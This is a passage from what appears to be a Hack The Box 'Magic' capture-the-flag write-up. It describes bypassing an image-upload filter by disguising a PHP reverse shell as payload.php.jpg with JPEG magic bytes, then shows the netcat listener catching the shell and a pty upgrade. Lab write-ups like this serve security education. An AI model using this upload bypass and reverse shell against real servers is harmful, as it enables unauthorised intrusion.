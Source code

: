 ![](https://github.com/Leo-2807/Writeups/blob/main/images/magic5.png)

## SHELL

Now that we have a way upload images we need to carve a payload to get a command execution.
I took help from this [article](https://gobiasinfosec.blog/2019/12/24/file-upload-attacks-php-reverse-shell/).

So first I downloaded the pentestmokey php rev shell and changed the host and port.

Then I renamed the rev shell to `payload.php.jpg` and opened it in hexeditor to insert the jpg magic bytes `FF D8 FF E0` at the beginning.

Now the payload is ready. I uploaded the payload and got a reverse shell.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/magic]
└─$ nc -lvnp 4444                
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.185] 60104
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:14:06 up  1:41,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
sh: 1: python: not found
$ which python
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
